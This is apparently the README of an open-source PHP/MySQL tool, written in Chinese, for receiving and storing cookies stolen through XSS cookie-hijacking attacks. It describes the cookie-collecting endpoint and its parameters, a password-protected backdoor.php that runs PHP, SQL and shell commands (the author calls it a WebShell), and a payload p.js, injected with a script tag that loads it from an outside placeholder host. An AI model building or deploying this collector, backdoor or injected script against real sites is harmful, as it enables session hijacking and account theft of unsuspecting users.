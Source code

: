 ﻿#XSS So easy
##简介
此网站用于XSS Cookie 劫持攻击中接收Cookie
花了半天写出来，简单美化一下，不知道外观如何
适用于 PHP MySQL

##使用方法
配置config.php，填写数据库用户名、密码等信息。
install.php：创建数据库、表等操作
write.php：GET或者POST得到的Cookie。
需要提交的参数为domain location toplocation cookie opener。
含有payload：p.js

##附加功能
读、写密码
自定义网站名称（title和页面中显示）
自定义开发者信息（底部显示）

##TODO
PHP提醒，mysql_connect()函数以后会被抛弃。考虑改写成新版函数。

##Update
###2015-9-12 21:05:48
一条不当的payload，使数据库里多了几百条垃圾数据。
于是我写了执行SQL语句的backdoor.php。（支持密码）

###2015-9-16 10:44:21
自我感觉默认配置的颜色过于小清新。于是分离出color.css文件，可以自行配置颜色。
出于复（xián）习（de）知（dàn）识（téng）的目的，做了个color.php，向color.css写入数据。
后门支持PHP、SQL、shell命令执行，且支持SQL SELECT命令结果显示。SQL的INSERT UPDATE DELETE影响行数显示。（突然发现做了个WebShell）
输出表格增加\n使HTML源文件易读。
由于空字符串在if语句中效果同false，因此system()返回最后一行为空时应使用if($foo !== FALSE)。其他情况同理。
改变字体为等宽字体。个别地方，中文使用微软雅黑。
使用Eclipse排版一下。其他一些细节调整优化。

###2015-9-16 22:25:33
CSS文件已改为PHP文件读写。
在Windows上运行系统命令时输出字符集为GBK，增加自动转换为UTF-8。

###2015-9-21 21:26:59
密码验证方式由GET改为POST，并增加install和testMySql页面密码功能
分离出CSS文件，并移动到style/main.css
增加read.php条件查询

###2015-10-20 15:45:32
修改数据库，更改url字段名为location并允许NULL，增加toplocation（用于框架）、opener。
从旧的数据库变更请在backdoor.php执行SQL命令：
···
alter table info change url location longtext NULL
alter table info add toplocation longtext
alter table info modify column cookie longtext after toplocation
alter table info add opener longtext
describe info
···
增加p.js作为payload，修改内部write.php域名和路径即可使用。
`<script src=http://xxx.xxx/p.js></script>`